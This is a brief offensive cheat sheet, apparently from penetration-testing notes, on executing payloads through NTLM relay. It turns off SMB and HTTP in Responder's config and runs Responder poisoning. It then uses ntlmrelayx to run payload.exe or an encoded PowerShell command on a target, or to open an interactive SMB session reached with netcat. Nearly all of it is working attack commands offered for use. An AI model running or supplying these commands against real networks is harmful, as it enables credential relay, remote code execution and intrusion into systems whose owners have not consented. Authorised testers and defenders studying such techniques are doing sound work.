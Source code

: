 # Execute Payload

Modify in the Responder configuration file

```
$ sudo nano /etc/responder/Responder.conf
..[omitted]..
SMB=OFF
HTTP=OFF
```

Start the `responder`.

```
$ sudo responder -I <interface> -rdw
```

Execute payload through NTLM poisoning.

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -e payload.exe

$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -c "powershell.exe -E <base64_encoded>"
```

Interactive SMB session with `netcat`.

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -i

$ nc 127.0.0.1 <PORT>
```